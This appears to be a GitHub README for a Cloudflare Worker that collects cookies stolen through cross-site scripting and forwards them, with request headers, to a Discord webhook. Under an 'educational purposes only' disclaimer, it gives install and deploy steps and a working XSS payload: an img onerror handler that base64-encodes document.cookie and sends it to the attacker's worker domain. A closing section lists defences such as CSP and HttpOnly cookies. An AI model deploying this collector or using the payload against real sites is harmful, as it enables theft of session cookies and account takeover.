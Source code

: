 # XSS-Endpoint

A Cloudflare Worker that demonstrates how Cross-Site Scripting (XSS) vulnerabilities can be exploited to capture cookies and send them to a Discord webhook.

**IMPORTANT: This project is for educational purposes only 🧑‍🎓. Do not use this for malicious activities.**

## Description

This project creates a simple endpoint deployed as a Cloudflare Worker that can receive cookies from XSS attacks and forward them to a Discord webhook. It demonstrates how attackers could potentially steal sensitive information through XSS vulnerabilities.

## Features

- Captures cookies from XSS payloads
- Collects request headers and URL information
- Sends data to a Discord webhook in a formatted JSON payload
- Easy deployment with Cloudflare Workers

## Prerequisites

- [Node.js](https://nodejs.org/) (latest LTS version recommended)
- [npm](https://www.npmjs.com/) (comes with Node.js)
- A [Cloudflare account](https://dash.cloudflare.com/sign-up)
- A [Discord webhook URL](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)

## Setup

1. Clone this repository
2. Install dependencies:
   ```bash
   npm install
   ```
3. Configure your Discord webhook:
   ```bash
   npm run setup
   ```
   When prompted, paste your Discord webhook URL
4. Deploy to Cloudflare:
   ```bash
   npm run deploy
   ```

## Local Development

To run the worker locally for testing:

```bash
npm start
```

This will start a local development server, typically at http://localhost:8787.

## Testing

Run tests with:

```bash
npm test
```

## Example XSS Payload

After deployment, you can test the worker with a payload like:

```html
<img src="x" onerror="this.src='https://your-worker-domain/?cookie=' + btoa(document.cookie);this.removeAttribute('onerror');" />
```

Replace `your-worker-domain` with the domain assigned by Cloudflare to your worker.

## How It Works

1. The worker listens for HTTP requests
2. When a request contains "cookie" in the URL, it:
   - Extracts cookies from the URL parameter (base64 encoded)
   - Collects request headers and URL information
   - Formats the data as JSON
   - Sends it to the configured Discord webhook

## Security Notice

This project demonstrates a security vulnerability. In real applications, you should:

- Implement proper Content Security Policy (CSP)
- Sanitize user inputs
- Set the HttpOnly flag on sensitive cookies
- Use SameSite cookie attributes
